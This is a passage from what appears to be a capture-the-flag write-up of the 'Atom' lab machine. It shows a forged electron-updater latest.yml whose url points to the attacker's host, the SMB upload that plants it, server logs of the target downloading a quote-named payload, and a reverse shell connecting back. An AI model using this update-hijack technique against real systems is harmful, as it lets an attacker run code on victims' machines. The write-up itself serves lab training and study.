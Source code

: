     
    
    C:\Users\jason\desktop>type user.txt
    3bb5552e************************
    

#### Remote

When helping a friend with Atom later, I noticed that the field was `url`, and
while I was putting a local file next to `latest.yml` on the server, it seems
logical that exploit also works with the payload remotely. I’ll create another
YAML file:

    
    
    version: 2.2.5
    files:
      - url: http://10.10.14.7/r'ev.exe
        sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
        size: 7168
    path: r'ev.exe
    sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
    releaseDate: '2021-04-17T11:17:02.627Z
    

The only thing I changed is the `url` is now pointing at my host. I’ll upload
this to Atom:

    
    
    smb: \client1\> put latest-remote.yml latest.yml
    putting file latest-remote.yml as \client1\latest.yml (4.8 kb/s) (average 4.8 kb/s)
    

Each minute, there are two connections to my webserver:

    
    
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
    10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r%27ev.exe HTTP/1.1" 404 -
    

If I put the payload there:

    
    
    oxdf@parrot$ cp rev.exe "r'ev.exe"
    

Then it still doesn’t find `r'ev.exe.blockmap`, but it does find `r'ev.exe`
(see the 200 status code):

    
    
    10.10.10.237 - - [10/Jul/2021 07:08:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
    10.10.10.237 - - [10/Jul/2021 07:08:13] "GET /r%27ev.exe HTTP/1.1" 200 -
    

And it runs, as a reverse shell connects back:
